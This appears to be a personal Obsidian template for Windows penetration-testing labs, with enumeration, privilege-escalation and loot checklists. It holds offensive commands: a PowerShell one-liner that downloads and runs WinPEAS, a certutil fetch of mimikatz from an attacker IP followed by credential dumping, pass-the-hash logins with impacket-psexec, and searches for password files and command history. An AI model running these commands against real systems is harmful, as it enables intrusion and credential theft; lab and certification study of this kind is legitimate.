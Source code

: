 #show #windows
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

Shell on system: ☑️
System pwned: ✅

# Enumeration
##### Enum4Linux
```bash
enum4linux -a $hip
```
If Null-Session is not restricted, also use `rpcclient -U "" -N $hip` with `querydispinfo` and `enumdomusers`. If used with proxy, use `proxychains -q`
##### Get SMB version
```bash
crackmapexec smb $hip 2>/dev/null
```
Alternativ: [grab_smbversion.sh](file:////home/kali/Documents/activeInformationGathering/)


# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `type C:\Users\Administrator\Desktop\proof.txt` or local.txt for non-elevated
	
##### Users
```powershell
Get-LocalUser
```
Alternative: `net user`
##### Network
```powershell
ipconfig /all; route print; netstat -ano; netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```

##### Interesting files
```powershell
Get-ChildItem -Recurse -Path C:\Users\ -File -Exclude Desktop.lnk,Downloads.lnk,Bing.url | select Name,Directory; Get-ChildItem -Path C:\Users\ -Include *.kdbx,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue; Get-History; type (Get-PSReadlineOption).HistorySavePath
```

##### Advanced
Mounted Volumes: `mountvol`
Devices: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`
Drivers: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"`
Shadow Copy: `vssadmin list shadows`, `mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\`
# PrivEsc
##### Find Working Dir for attack
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### WinPEAS
```bash
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1'); ./linpeash.ps1 -a -r | tee linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`

> I still have to run WinPEAS once and check what additional commands I need to integrate from [[2_loot-privEsc_Windows_Manually]]

##### Windows Exploit Suggester - Next Generation
On target, execute `systeminfo > systeminfo.txt` and transfer file. On kali, do
```bash
wes --muc-lookup systeminfo.txt
```

Consider [[3_dllHijacking_guide]]

Ways to login as another user:
- `impacket-psexec '$user:$password@$hip'` oder `impacket-psexec -hashes 00000000000000000000000000000000:$ntlm_hash '$user@$hip'`
- If we have access to the GUI -> `RunAs /user:$user cmd`
- User is in group _Remote Desktop Users_ -> RDP
- User is in group _Remote Management Users_ -> WinRM (Better use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from non-interactive shells)
- User has _Log on as a batch job_ right -> Schedule task to execute a program of our choice as this user
- User has active session -> Use PsExec (SysInternals)

# Loot passwords
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.IP:8000/mimikatz.exe" ; .\mimikatz.exe privilege::debug sekurlsa::logonpasswords lsadump::sam exit
```